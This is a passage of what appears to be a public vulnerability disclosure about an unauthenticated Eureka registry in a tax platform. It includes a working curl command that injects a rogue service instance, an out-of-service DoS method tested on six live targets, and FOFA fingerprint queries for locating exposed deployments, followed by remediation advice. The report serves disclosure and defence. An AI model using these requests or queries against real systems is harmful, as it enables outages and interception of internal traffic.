> Note: on T1 the `instanceId` carries a trailing `@`, and Eureka's URL-decoding of that ID is inconsistent; the `PUT` returned 404 (instance not matched). This is an encoding difference, not an indication that the site is unwritable — the `#2` injection on the same site succeeded.

On T6 the immediate read-back still showed `OUT_OF_SERVICE` because of Eureka's response cache (~30 s); the independent re-check in Section 6.6 confirmed the instance was back to `UP` (target hashcode `UP_20_`, `OUT_OF_SERVICE=0`).

Raw Burp request/response captures for four of the targets are shown below. Each request carries no Cookie, Authorization, or Token header, and the response body returns the target instance with `status=OUT_OF_SERVICE` and `overriddenStatus=OUT_OF_SERVICE`.









**Impact:** an attacker can remove a real online instance from the production routing pool without any credentials (if this is done in bulk or persistently, it becomes an availability attack / DoS) and can restore it within seconds. This demonstrates direct, reversible control over production instance state.

### 6.5 [#2] Injecting a malicious instance under a real service name (hijack precondition)

Method: register an instance under a **real** service name (not a probe name) with a unique `instanceId`, `ipAddr` pointing to an attacker-controllable address (in this test, `127.0.0.1:8089`, a harmless loopback value), and `status=UP`. Then read back the registry to confirm whether the instance was accepted as a candidate.

```bash
curl -s -o /dev/null -w "%{http_code}\n" \
  -X POST "https://<target>/utility/eureka/apps/VATFP" \
  -H "Content-Type: application/json" \
  -d '{"instance":{
        "instanceId":"PENWOMDZS:8089","app":"VATFP","hostName":"127.0.0.1",
        "ipAddr":"127.0.0.1","status":"UP",
        "port":{"$":8089,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},
        "vipAddress":"vatfp","secureVipAddress":"vatfp",
        "homePageUrl":"http://127.0.0.1:8089/","statusPageUrl":"http://127.0.0.1:8089/info",
        "healthCheckUrl":"http://127.0.0.1:8089/health",
        "dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},
        "leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":120} }}'
# -> 204

# Read back: confirm the malicious instance appears in the real service's candidate list
curl -s "https://<target>/utility/eureka/apps/VATFP" -H "Accept: application/json"
# -> 200, PENWOMDZS:8089 appears alongside genuine instances (status=UP, ipAddr=127.0.0.1)
```

Results (6/6 succeeded):

| Target | Real service | Injected instanceId | POST | Read-back |
|---|---|---|---|---|
| T1 | VATFP | PENWOMDZS:8089 | 204 | status=UP, ipAddr=127.0.0.1, actionType=ADDED |
| T2 | UTILITY | PENQBAUVR:8089 | 204 | as above |
| T3 | VATFP | PENGZVFHN:8089 | 204 | as above |
| T4 | KYR | PENIPCZYU:8089 | 204 | as above |
| T5 | TDA | PENCBYTQG:8089 | 204 | as above |
| T6 | VATFP | PENQTNTIR:8089 | 204 | as above |

Verbatim registry excerpts (abridged) showed the injected instance listed in the same `instance[]` array as the genuine instances, carrying `status=UP`, `ipAddr=127.0.0.1`, and `actionType=ADDED`; in one case the injected instance also carried a `healthCheckUrl` pointing at the attacker-chosen address.

**Impact:** service discovery treats the malicious instance as an online node of the real service and includes it in the load-balancing candidate pool. When other microservices call by service name (`vipAddress`), part of the internal traffic can be steered to the attacker's address (`127.0.0.1:8089` in this proof; a real attack would use an attacker-reachable address), enabling:

- interception of credentials, tokens, and business data in internal calls (man-in-the-middle);
- lateral movement into other services that depend on the impersonated service.

The loopback address is a harmless proof value only; the impact does not depend on it.

### 6.6 Cleanup and zero-residual verification

After testing, injected instances were deregistered and removed real instances were restored. An independent re-check on 2026-10-10 confirmed:

| Target | hashcode | Instances | rogue | OUT_OF_SERVICE | Verdict |
|---|---|---|---|---|---|
| T1 | `UP_4_` | 4 | 0 | 0 | clean |
| T2 | `UP_1_` | 1 | 0 | 0 | clean |
| T3 | `UP_12_` | 12 | 0 | 0 | clean |
| T4 | `UP_4_` | 4 | 0 | 0 | clean |
| T5 | `UP_11_` | 11 | 0 | 0 | clean |
| T6 | `UP_20_` | 20 | 0 | 0 | clean |

`rogue` is defined as an instance whose `instanceId` starts with `PEN` and whose `ipAddr` is `127.0.0.1`. Final state: six targets with `rogue=0` and `OUT_OF_SERVICE=0`; every registry was restored.

Cleanup details:

- **[#2] malicious instances:** deregistered with `DELETE /utility/eureka/apps/<APP>/<instanceId>` on five targets (200). On T1 the `DELETE` was blocked by the WAF (403); the instance was removed by lease expiry (120 s) without renewal, confirmed by polling (`rogue=[]`).
- **[#1] removed real instances:** restored one by one with `PUT .../status?value=UP`.

### 6.7 Limitations (stated as measured)

- **No end-to-end traffic hijack was performed.** The test proved that the registry broadcasts the attacker's instance as an online candidate (the hijack precondition). During the verification window the listener port was occupied by a local proxy process, and the harmless `127.0.0.1` value would not route back to an attacker in any case. The end-to-end chain requires separate verification with an independent free listener.
- **Two anomalies on T1.** [#1] returned 404 because of an `instanceId` encoding difference (trailing `@`); [#2]'s `DELETE` was blocked by the WAF (403) and the instance expired with its lease. Neither affects the "unauthenticated write" conclusion — writes succeeded on the same site.
- **Cache latency.** Eureka's response cache is ~30 s; an immediate read-back may return a stale value. All final conclusions rely on the independent re-check in Section 6.6.

### 6.8 End-to-end service outage in an isolated lab

To verify the terminal consequence — whether upstream business actually becomes unavailable when all instances of a service are `OUT_OF_SERVICE` — an isolated local lab was built (Spring Boot 3.2.5 + Spring Cloud 2023.0.3): a Eureka server, two DEMO-WEB instances (`:8081` / `:8082`), and a gateway (`:8080`) that calls the service through service discovery. The same unauthenticated status API was used for "remove all → business failure → restore all". All traffic was captured through a local Burp proxy. This environment is isolated and involves no customer assets.

















Result: initially both instances were UP and the business returned 200. After setting both instances to `OUT_OF_SERVICE`, the registry read back `OUT_OF_SERVICE`, the gateway's available-instance count dropped to zero, and the business entry returned HTTP 503 (`No instances available for DEMO-WEB`). After `PUT ...?value=UP`, the business recovered to 200 and the registry read back `UP`. The instance processes themselves remained alive (direct calls to `:8081` / `:8082` still returned 200); the outage came from the routing pool being emptied at the registry / service-discovery layer, not from a process crash.

This confirms the service-level DoS path: an attacker only needs to remove all instances of a service without authentication to make upstream calls fail. The operation is reversible and leaves no residue.

---

## 7. Product Attribution

This section documents the evidence used to attribute the defect to the Deloitte Digital-T-Suite Enterprise Tax Platform: page fingerprints, the icon hash, service-side probes, and product login / corporate registration evidence.

Logo or favicon hashes alone are too broad (they also match other Deloitte product lines); reliable identification should prioritize page fingerprints and use `icon_hash` as a secondary signal.

### 7.1 Stable page fingerprints (recommended)

```
# Highest confidence (unique to Digital-T-Suite, rarely changes across versions)
body="components.tisHome.TaxManagement"      # Vue i18n key leaked in the home page meta
body="digital-tsuite.com.cn"                 # CDN domain (cdn-dev.digital-tsuite.com.cn)
body="/portal//environments/environment.js"  # double-slash path, distinctive
body="/portal//assets/css/dts.css"           # double-slash path, distinctive

# Titles (vary by portal page; use the union). Kept verbatim in Chinese because
# they are the literal page titles the fingerprint must match.
title="税务管理系统平台门户"   # "Tax Management System Platform Portal"
title="企业税务基础平台"       # "Enterprise Tax Foundation Platform"

# Auxiliary (component paths, medium uniqueness)
body="/common/paramquery/localize/pq-localize-zh.js"
body="pqgrid.dev.min.js"
```

Recommended combined query:

```
body="components.tisHome.TaxManagement" || body="digital-tsuite.com.cn" || body="/portal//environments/environment.js"
```

### 7.2 Icon hash (auxiliary)

```
icon_hash="-604258519"     # /portal/favicon.ico (7406 bytes), FOFA's official encoding
```

Two pitfalls observed:

1. The logo on the portal page and `/portal/favicon.ico` are different files with different hashes (the logo hash is `-294449469`); using the wrong file will not match.
2. The mirror FOFA instance does not support `icon_hash` search; use official FOFA, or use the `body=` / `title=` queries above on mirrors.

### 7.3 Service-side probes

```
GET  /utility/                -> Eureka management UI (<title>Eureka</title>, <base href="/utility/">)
GET  /utility/eureka/apps     -> hit when it returns 200 anonymously; the JSON contains "applications"
GET  /gateway/utility/eureka/apps -> 403 "backend service access restriction is enabled" indicates the ACL exists
```

### 7.4 Supporting attribution evidence







In summary: the page fingerprints (`components.tisHome.TaxManagement`, `digital-tsuite.com.cn`, double-slash resource paths) and the official icon hash (`icon_hash=-604258519`) consistently identify the Deloitte Digital-T-Suite tax platform, and the login page and corporate registration information further confirm product ownership.

Related advisories referenced by the ecosystem: CVE-2023-25570; also CVE-2026-50196 and CVE-2026-81515.

---

## 8. Remediation

### 8.1 Product vendor (root fix)

1. **Require authentication on the `utility` service.** Add `spring-security` (Basic auth over HTTPS) to the Eureka server, protect both reads and writes, disable anonymous access to `/eureka/**` and the `/utility/` management UI, and allow only authorized registering nodes and an operations allowlist.
2. **Do not expose management surfaces by default.** Deploy `utility`, actuator, and the configuration center on a dedicated management network; they must not be exposed alongside the business entry point.
3. **Enforce access control at the service or network layer.** A gateway-prefix ACL is not sufficient. Authenticate at the service or network layer, or disable direct public passthrough to `/<svc>/**` and keep only the single `/gateway/**` entry.
4. **Validate registry registrations.** With authentication enabled, restrict the registerable application names and source networks to reduce poisoning risk.
5. **Do not leak internal configuration to the frontend.** `environment.js` and other static resources must not hard-code internal addresses; inject environment-specific values at build time.
6. **Review SaaS multi-tenant isolation.** Confirm that each `*.digital-tsuite.com.cn` tenant's `utility` / registry / gateway are isolated from one another.

### 8.2 Deployers (customers / operations)

1. **Reduce exposure.** Confirm that `utility` (8900) and direct `/<svc>/**` paths are not exposed to the internet; expose only the authenticated gateway entry.
2. **Regression-test the bypass.** "We applied a restriction" is not the same as "it is actually blocked" — test the direct-path bypass against `/gateway`-prefix controls (as demonstrated for `/utility/**`).
3. **Defense in depth.** Apply network-layer ACLs and instance allowlists to the registry so that protection does not depend solely on the gateway prefix.

---

## 9. Disclosure and Testing Boundary

- **Method.** All verification against internet-facing assets was non-destructive, reversible, and harmless (no destructive payloads).
- **Read-only checks.** Anonymous retrieval of the registry (`GET /eureka/apps`).
- **Bulk write checks.** A globally unique, non-existent service name (`PENPROBE…`) + loopback `127.0.0.1` + `port=1` + a 60 s lease, deregistered immediately and re-verified.
- **Impact escalation checks (Section 6).** [#1] a seconds-level reversible `OUT_OF_SERVICE` → `UP` transition on real online instances (restored immediately and verified); [#2] injection of a unique `instanceId` (`PEN…`) with `ipAddr=127.0.0.1:8089` and `status=UP` under a real service name to prove the hijack precondition, deregistered immediately (on T1 the WAF blocked `DELETE`, so the instance expired with its 120 s lease). Final state on all six targets: `rogue=0` / `OUT_OF_SERVICE=0`.
- **Customer environments.** For enterprise customer tenants, only registry reads and harmless write probes (unique service name + loopback + short lease) were performed: no real instance state was changed, no routable instance was injected under a real service name, and no business traffic was generated.
- **Not performed.** No destructive payloads; no real traffic hijacking (only proof that the registry published the malicious instance as an online candidate).
- **Internal addresses.** Internal IPs that appeared in registry responses were treated solely as response-side evidence; no access (port or management-plane probing) was performed against them.
- **XSS surface.** All reachable render points in the Eureka UI were tested and correctly escaped / filtered; UI-side stored XSS does not hold (tested with inert probes, no executable payload delivered). Business systems that consume the registry and render instance metadata themselves were out of scope.
- **Attribution scope.** The 354 assets are the product-fingerprint match set (including other Deloitte product lines and a small number of false positives). Only assets with a confirmed open registry are attributed as vulnerable; the rest are used only as a distribution reference.

---

## Appendix A — Public-Release Redactions

This public version differs from the internal report as follows:

| Item | Internal report | Public release |
|---|---|---|
| Customer domains / company names | Named | Masked as `XXX` in screenshots; "Customer A–G" / "enterprise deployment" in text |
| Public IP addresses | Listed | Masked as `XXX` in screenshots; `<target>` in text |
| Private (RFC 1918) addresses and management ports | Listed as evidence | **Retained** — they are the evidence for the gateway-bypass and instance-poisoning claims and are not routable from the internet |
| Eureka instance IDs (containing internal IPs / hostnames) | Listed | **Retained**, for the same reason |
| Session cookies (`JSESSIONID`, `acw_tc`, `SERVERID`) and bearer tokens | Visible in screenshots | Masked as `[REDACTED]` |
| Deloitte product domains (`digital-tsuite.com.cn`) | Listed | Retained (product attribution) |
| Asset inventory (internal spreadsheet, 354 rows) | Attached | Not published |
| PoC scripts and run logs (containing real targets) | Attached | Not published |

All 27 figures in this document were checked individually; the 14 that contained a customer domain, a public IP, a session cookie or a token were re-masked before publication. No screenshot in this version contains a customer domain, a public IP address, a session cookie or a bearer token. Probe identifiers (`PENPROBEEX…`) are test artefacts that were removed from every target after verification and are retained here as evidence of the injection method.

## Appendix B — References

- Spring Cloud Netflix Eureka — instance status (`OUT_OF_SERVICE` semantics)
- Spring Cloud documentation, service registry instance status



- Apollo configuration center issue #5253 — instance status propagation
- Microsoft Learn — zero-downtime deployment concepts for Spring apps

